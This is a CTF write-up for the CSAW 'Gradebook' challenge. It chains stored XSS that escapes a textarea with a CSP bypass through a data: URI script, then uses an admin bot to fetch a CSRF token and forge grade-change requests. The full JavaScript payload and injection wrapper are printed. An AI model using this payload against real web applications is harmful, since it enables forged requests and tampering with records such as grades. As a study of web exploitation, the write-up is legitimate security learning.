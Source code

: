 **Challenge name**: Gradebook

**Vulnerability** : Stored XSS in a <textarea> rendering context combined with an admin-only /grade-change endpoint protected by a CSRF token. CSP allowed data: URIs so a data:-URI script can run.

**Solution**:
## Step 1: Information Gathering
The first phase is to collect the unique identifiers for your student account.

Obtain Student ID: Log in to gradebook-app.ctf.csaw.io and navigate to your dashboard. Your student_id is the UUID in the URL.

Example URL: https://gradebook-app.ctf.csaw.io/dashboard/0575b20b-a727-44e1-bfe1-60d3ca50201c

Your student_id: 0575b20b-a727-44e1-bfe1-60d3ca50201c

Obtain Class IDs: On your dashboard, view the page source. Locate the table of your grades and copy the five class_id UUIDs from the first column of each row.

## Step 2: Payload Construction
The next phase is to construct the multi-stage exploit payload.

Prepare the JavaScript Logic: Copy the following JavaScript template. This script is designed to fetch a CSRF token and then send forged requests to change your grades.



"fetch('/grade-change').then(t=>t.text()).then(t=>{let e=new DOMParser,d=e.parseFromString(t,'text/html'),a=d.querySelector('input[name=csrf_token]').value,c='YOUR_STUDENT_ID',r=['CLASS_ID_1','CLASS_ID_2','CLASS_ID_3','CLASS_ID_4','CLASS_ID_5'];r.forEach(t=>{let e=new FormData;e.append('student_id',c),e.append('class_id',t),e.append('grade','A'),e.append('csrf_token',a),fetch('/grade-change',{method:'POST',body:e})}),location.href='/honor-roll-certificate'});"

 In the template, replace the placeholders YOUR_STUDENT_ID and CLASS_ID_1, CLASS_ID_2, etc., with the specific IDs you gathered in Step 1.

Take your entire customized JavaScript string and URL-encode it to ensure it can be safely embedded in the final payload. 

Construct the final one-line payload by inserting your URL-encoded script into the following structure. This structure is designed to escape the <textarea> context and bypass the site's Content Security Policy.

HTML

</textarea><script src="data:text/javascript,PASTE_YOUR_ENCODED_SCRIPT_HERE"></script>
## Step 3: Execution
The final phase is to inject the payload and trigger the exploit.

Go to your dashboard on gradebook-app.ctf.csaw.io. Paste your complete, final payload from Step 2.4 into any single comment box and submit the feedback form.

Copy your full dashboard URL. Navigate to gradebook-admin.ctf.csaw.io, paste your URL into the form, and submit it.

The bot will now execute your script, changing your grades. Navigate to https://gradebook-app.ctf.csaw.io/honor-roll-certificate to view the flag.

